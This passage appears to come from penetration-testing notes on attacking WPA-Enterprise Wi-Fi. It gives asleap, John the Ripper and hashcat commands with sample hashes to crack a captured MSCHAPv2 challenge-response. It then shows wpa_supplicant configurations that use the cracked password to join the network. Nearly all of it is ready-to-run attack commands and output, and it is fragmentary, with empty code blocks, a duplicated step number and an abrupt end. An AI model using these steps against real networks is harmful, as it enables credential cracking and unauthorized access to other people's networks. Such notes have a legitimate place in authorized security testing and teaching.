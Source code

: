 ```bash
```

#* 4. Use ASLEEP command to crack the hash
```bash
asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst
   
Using wordlist mode with "/usr/share/john/password.lst".
        hash bytes:        586c
        NT hash:           8846f7eaee8fb117ad06bdd830b7586c
        password:          password
```
#* 4. Use John to crack the password
```bash
# copy output to pass.hash
cosmo:$NETNTLM$ceb69885c656590c$7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:::::::

# crack password
john --wordlist=/usr/share/john/password.lst pass.hash
```

 * Use hashcat to crack the password
```bash
# copy output to pass.hash
cosmo::::7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:ceb69885c656590c

# crack password
hashcat -a 0 -m 5500 pass.hash ~/rockyou-top100000.txt --force
```
-----------------------

# Connecting to wifi

Create supplicant conf mgt.conf
```bash
network={
    ssid="SSID HERE"
    scan_ssid=1
    key_mgmt=WPA-EAP
    eap=TTLS
    identity="domain\username HERE"
    anonymous_identity="anon"
    password="CRACKED PASSWORD HERE"
    phase2="auth=PAP"
}

// OR

network={
    ssid="fake-network"
    scan_ssid=1
    key_mgmt=WPA-EAP
    identity="peter"
    password="peter124!"
    eap=PEAP
    phase1="peaplabel=0"
    phase2="auth=MSCHAPV2"
}
```
Connect via supplicant
```bash
sudo wpa_supplicant -D nl80211 -i wlan0 -c mgt.conf
```
On another terminal get an IP from DHCP server
```bash
```